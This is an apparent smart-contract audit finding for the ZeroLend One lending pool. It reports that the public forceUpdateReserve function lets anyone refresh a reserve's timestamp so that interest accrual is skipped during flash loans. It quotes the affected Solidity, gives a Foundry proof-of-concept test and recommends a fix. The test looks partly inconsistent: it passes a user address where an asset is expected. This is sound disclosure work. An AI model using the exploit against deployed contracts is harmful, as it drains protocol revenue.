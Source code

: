Orbiting Glossy Hyena

High

# Bypass Of Interest Accrual Due To Flash Loan Timestamp Manipulation

## Summary
The `forceUpdateReserve` function is publicly accessible, users can call this function immediately before any direct pool operation to set the `lastUpdateTimestamp` to the current block timestamp. Consequently, when the pool operation attempts to call `updateState`, the timestamp check may causes the function to return early, skipping the state update which will cause a bypass of necessary state updates for the protocol as an attacker can manipulate the `lastUpdateTimestamp` before executing a flash loan.
## Vulnerability Detail
The attacker calls `forceUpdateReserve` [Pool.sol#L161](https://github.com/sherlock-audit/2024-06-new-scope/blob/c8300e73f4d751796daad3dadbae4d11072b3d79/zerolend-one/contracts/core/pool/Pool.sol#L161) to manipulate the `lastUpdateTimestamp` of a reserve to sets the `lastUpdateTimestamp` to the current block timestamp.
```solidity
  function forceUpdateReserve(address asset) public {
    DataTypes.ReserveData storage reserve = _reserves[asset];
    DataTypes.ReserveCache memory cache = reserve.cache(_totalSupplies[asset]);
    reserve.updateState(this.getReserveFactor(), cache);
  }
```

The attacker then initiates a flash loan using `flashLoanSimple`: [Pool.sol#L145](https://github.com/sherlock-audit/2024-06-new-scope/blob/c8300e73f4d751796daad3dadbae4d11072b3d79/zerolend-one/contracts/core/pool/Pool.sol#L145)
```solidity
  function flashLoanSimple(address receiverAddress, address asset, uint256 amount, bytes calldata params) public {
    _flashLoan(receiverAddress, asset, amount, params, DataTypes.ExtraData({interestRateData: '', hookData: ''}));
  }
```
This calls the `_flashLoan` function [PoolSetters.sol#L178](https://github.com/sherlock-audit/2024-06-new-scope/blob/c8300e73f4d751796daad3dadbae4d11072b3d79/zerolend-one/contracts/core/pool/PoolSetters.sol#L178) which subsequently calls `FlashLoanLogic.executeFlashLoanSimple` function [FlashLoanLogic.sol#L65](https://github.com/sherlock-audit/2024-06-new-scope/blob/c8300e73f4d751796daad3dadbae4d11072b3d79/zerolend-one/contracts/core/pool/logic/FlashLoanLogic.sol#L65)
then the `executeFlashLoanSimple`, function call `_handleFlashLoanRepayment` function [FlashLoanLogic.sol#L106C12-L106C37](https://github.com/sherlock-audit/2024-06-new-scope/blob/c8300e73f4d751796daad3dadbae4d11072b3d79/zerolend-one/contracts/core/pool/logic/FlashLoanLogic.sol#L106C12-L106C37) which Handles repayment of flashloaned assets + premium which trigger the `updateState` function [ReserveLogic.sol#L87](https://github.com/sherlock-audit/2024-06-new-scope/blob/c8300e73f4d751796daad3dadbae4d11072b3d79/zerolend-one/contracts/core/pool/logic/ReserveLogic.sol#L87) to update the reserve state:
```solidity
  function updateState(DataTypes.ReserveData storage self, uint256 _reserveFactor, DataTypes.ReserveCache memory _cache) internal {
    // If time didn't pass since last stored timestamp, skip state update
    if (self.lastUpdateTimestamp == uint40(block.timestamp)) return;

    _updateIndexes(self, _cache); 
    _accrueToTreasury(_reserveFactor, self, _cache);

    self.lastUpdateTimestamp = uint40(block.timestamp);
  }
```
However, due to the manipulated timestamp, the condition ```if (self.lastUpdateTimestamp == uint40(block.timestamp)) return;``` is true, the function return early and skip the state update.
By skipping the state update, the reserve's cumulative and borrow indexes will not be updated correctly.
## Impact
During flash loan operations, the manipulation may allow attacker to bypass the correct up-to-date of  reserve state, by manipulating the `lastUpdateTimestamp` via the `forceUpdateReserve` function, an attacker can borrow and repay large sums in flash loan without updating the liquidity and borrow indexes. This results in no interest being accrued to the treasury, even though significant amounts are borrowed. Over time, This can result in a loss of revenue for the treasury, as the interest that
should be accrued to it is bypassed.

## Proof of Concept
Add the test function to [PoolFlashLoanTests.t.sol](https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/test/forge/core/pool/PoolFlashLoanTests.t.sol) 
```solidity

function test_bypassFlashloans() public {
    bytes memory emptyParams;
    MockFlashLoanSimpleReceiver mockFlashSimpleReceiver = new MockFlashLoanSimpleReceiver(pool);

    _generateFlashloanCondition();

    uint256 premium = poolFactory.flashLoanPremiumToProtocol();
    emit log_named_uint("Flashloan Premium", premium);

    // Log initial balances
    emit log_named_uint("Initial balance of mockFlashSimpleReceiver", tokenA.balanceOf(address(mockFlashSimpleReceiver)));
    emit log_named_uint("Initial balance of Alice", tokenA.balanceOf(alice));
    emit log_named_uint("Initial balance of Pool contract", tokenA.balanceOf(address(pool)));
    
    // Step 1: executing the first flash loan
    vm.startPrank(alice);
    
    emit log("Executing first flash loan");

    vm.expectEmit(true, true, true, true);
    emit PoolEventsLib.FlashLoan(address(mockFlashSimpleReceiver), alice, address(tokenA), 100 ether, 0);
    emit Transfer(address(alice), address(mockFlashSimpleReceiver), 500 ether * premium);

    pool.flashLoanSimple(address(mockFlashSimpleReceiver), address(tokenA), 100 ether, emptyParams);

    // Log balances after the first flash loan
    emit log_named_uint("MockFlashSimpleReceiver after first flash loan", tokenA.balanceOf(address(mockFlashSimpleReceiver)));
    emit log_named_uint("Alice after first flash loan", tokenA.balanceOf(alice));
    emit log_named_uint("Pool contract after first flash loan", tokenA.balanceOf(address(pool)));
    
    vm.stopPrank();

    // Step 2: flash loan premium update
    poolFactory.setFlashloanPremium(0);
    premium = poolFactory.flashLoanPremiumToProtocol();
    emit log_named_uint("Updated Flashloan Premium", premium);
    assertEq(premium, 0);

    // Anyone can frontrun the repayment
    pool.forceUpdateReserve(address(alice));
    emit log("forceUpdateReserve");

    // Step 4: Executing the second flash loan
    vm.startPrank(alice);
    
    emit log_named_uint("MockFlashSimpleReceiver before second flash loan", tokenA.balanceOf(address(mockFlashSimpleReceiver)));
    emit log_named_uint("Alice before second flash loan", tokenA.balanceOf(alice));
    emit log_named_uint("Pool contract before second flash loan", tokenA.balanceOf(address(pool)));
    
    emit log("Executing second flash loan");

    vm.expectEmit(true, true, true, true);
    emit PoolEventsLib.FlashLoan(address(mockFlashSimpleReceiver), alice, address(tokenA), 100 ether, (100 ether * premium) / 10_000);
    emit Transfer(address(0), address(mockFlashSimpleReceiver), (100 ether * premium) / 10_000);

    pool.flashLoanSimple(address(mockFlashSimpleReceiver), address(tokenA), 100 ether, emptyParams);
    
    // Log balances after the second flash loan
    emit log_named_uint("MockFlashSimpleReceiver after second flash loan", tokenA.balanceOf(address(mockFlashSimpleReceiver)));
    emit log_named_uint("Alice after second flash loan", tokenA.balanceOf(alice));
    emit log_named_uint("Pool contract after second flash loan", tokenA.balanceOf(address(pool)));
    
    vm.stopPrank();
    
    emit log("Flash loan completed");

    // Log specific token transfers if possible (manual investigation)
    emit log_named_uint("Pool contract balance", tokenA.balanceOf(address(pool)));
    emit log_named_uint("Alice balance", tokenA.balanceOf(alice));
}
```

## Tool used
Manual Review

## Recommendation
Reimplement the reserve update mechanism to ensure that updateState and associated functions always apply the correct reserve factor and interest accrual, even when called during a flash loan. 
Modify the timestamp logic in `updateState` to avoid early exits in case of manipulation